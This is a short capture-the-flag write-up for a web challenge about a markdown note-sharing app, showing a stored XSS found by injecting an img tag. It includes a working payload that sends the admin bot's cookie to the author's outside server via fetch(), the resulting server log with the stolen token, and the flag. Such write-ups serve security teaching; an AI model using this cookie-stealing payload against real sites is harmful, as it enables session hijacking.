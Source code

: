 # Markdown

## Description
```
My friend made an app for sharing their notes!

App: https://markdown.web.actf.co/

Send them a link: https://admin-bot.actf.co/markdown
```

## Provided Files
```
- index.js
``` 

## Writeup

Starting off, we can assume that it's probably some kind of `XSS` because we need to use an `admin-bot`. <br/>
Visiting `https://markdown.web.actf.co/` reveals a markdown editor/viewer. <br/>
I have seen similar challenges where you could execute `XSS` through a html component which isn't porperly sanitized. <br/>

Using my default payload `<img src=1 onerror="alert(1)"/>` I tested it and got a working `XSS` payload. <br/>

Creating the payload below and using it on the admin-bot. <br/>
```html
<img src=1 onerror="fetch(`https://aryt3.dev/${document.cookie}`)"/>
```

My Server-Logs:
```sh
107.178.204.14 - - [26/May/2024:15:54:55 +0200] "GET /token=d15453b0234690ccbb91861e HTTP/1.1" 502 559 "https://markdown.web.actf.co/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/121.0.0.0 Safari/537.36"
```

Creating a cookie `token:d15453b0234690ccbb91861e` and navigating to `https://markdown.web.actf.co/flag` revealed the flag `actf{b534186fa8b28780b1fcd1e95e2a2e2c}` which concludes this writeup.